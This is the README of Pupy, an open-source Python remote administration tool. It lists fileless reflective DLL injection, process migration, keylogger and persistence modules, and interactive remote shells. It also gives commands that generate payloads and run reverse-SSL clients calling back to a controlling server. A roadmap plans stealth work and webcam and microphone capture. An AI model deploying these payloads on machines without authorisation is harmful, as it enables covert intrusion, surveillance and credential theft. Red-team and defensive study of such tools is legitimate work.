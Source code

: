 # Pupy
Pupy is an opensource RAT (Remote Administration Tool) written in Python. Pupy uses reflective dll injection and leaves no traces on disk.

## Features :
- On windows, the Pupy payload is compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
- Pupy can reflectively migrate into other processes
- Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd). The imported python modules do not touch the disk. (.pyd mem import currently work on Windows only, .so memory import is not implemented). 
- modules are quite simple to write and pupy is easily extensible.
- Pupy uses rpyc (https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
  - we can also access remote objects interactively from the pupy shell and even auto completion of remote attributes works !
- communication channel currently works as a ssl reverse connection, but a bind payload will be implemented in the future
- all the non interactive modules can be dispatched on multiple hosts in one command
- Multi-platform (tested on windows 7, windows xp, kali linux, ubuntu)
- modules can be executed as background jobs
- commands and scripts running on remote hosts are interruptible
- auto-completion and nice colored output :-)
- commands aliases can be defined in the config

## Implemented Modules :
- migrate (windows only) 
  - inter process architecture injection also works (x86->x64 and x64->x86)
- keylogger (windows only)
- persistence (windows only)
- screenshot (windows only)
- command execution
- download
- upload
- socks5 proxy
- interactive shell (cmd.exe, /bin/sh, ...)
- interactive python shell

##Quick start
In these examples the server is running on a linux host (tested on kali linux) and it's IP address is 192.168.0.1  
The clients have been tested on (Windows 7, Windows XP, kali linux, ubuntu, Mac OS X 10.10.5) 
### generate/run a payload
#### for Windows
```bash
./genpayload.py 192.168.0.1 -p 443 -t exe_x86 -o pupyx86.exe
```
#### for Linux
```bash
pip install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

#### for MAC OS X
```bash
easy_install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

### start the server
1. eventually edit pupy.conf to change the bind address / port
2. start the pupy server :
```bash
./pupysh.py
```

### Some screenshots
#####list connected clients
![screenshot1](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr1.png "screenshot1")
#####help
![screenshot3](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/help.png "screenshot3")
#####execute python code on all clients
![screenshot2](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr2.png "screenshot2")
#####execute a command on all clients, exception is retrieved in case the command does not exists
![screenshot4](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr3.png "screenshot4")
#####use a filter to send a module only on selected clients
![screenshot5](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/filters.png "screenshot5")
#####migrate into another process
![screenshot6](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/migrate.png "screenshot6")
#####interactive shell
![screenshot7](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/interactive_shell.png "screenshot7")
#####interactive python shell
![screenshot8](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/pyshell.png "screenshot8")

##write a module : example a MsgBox
first of all write the function/class you want to import on the remote client  
in the example we create the file pupy/packages/windows/all/pupwinutils/msgbox.py 
```python
import ctypes
import threading

def MessageBox(text, title):
	t=threading.Thread(target=ctypes.windll.user32.MessageBoxA, args=(None, text, title, 0))
	t.daemon=True
	t.start()
```
then, simply create a module to load our package and call the function remotely
```python
class MsgBoxPopup(PupyModule):
	""" Pop up a custom message box """

	def init_argparse(self):
		self.arg_parser = PupyArgumentParser(prog="msgbox", description=self.__doc__)
		self.arg_parser.add_argument('--title', help='msgbox title')
		self.arg_parser.add_argument('text', help='text to print in the msgbox :)')

	@windows_only
	def is_compatible(self):
		pass

	def run(self, args):
		self.client.load_package("pupwinutils.msgbox")
		self.client.conn.modules['pupwinutils.msgbox'].MessageBox(args.text, args.title)
		self.log("message box popped !")

```

## Dependencies
rpyc (https://github.com/tomerfiliba/rpyc)

##Roadmap and ideas
Some ideas without any priority order
- support for https proxy
- bind instead of reverse connection
- add offline options to payloads like enable/disable certificate checking, embbed offline modules (persistence, keylogger, ...), etc...
- integrate scapy in the windows dll :D (that would be fun)
- work on stealthiness and modules under unix systems
- webcam snap
- mic recording
- socks5 udp support
- local/remote port forwarding
- perhaps write some documentation
- ...
- any cool idea ?

## Contact
mail: contact@n1nj4.eu  
  
If some of you want to participate or send me a feedback, don't hesitate :-)  
[Follow me on twitter](https://twitter.com/n1nj4sec)
 
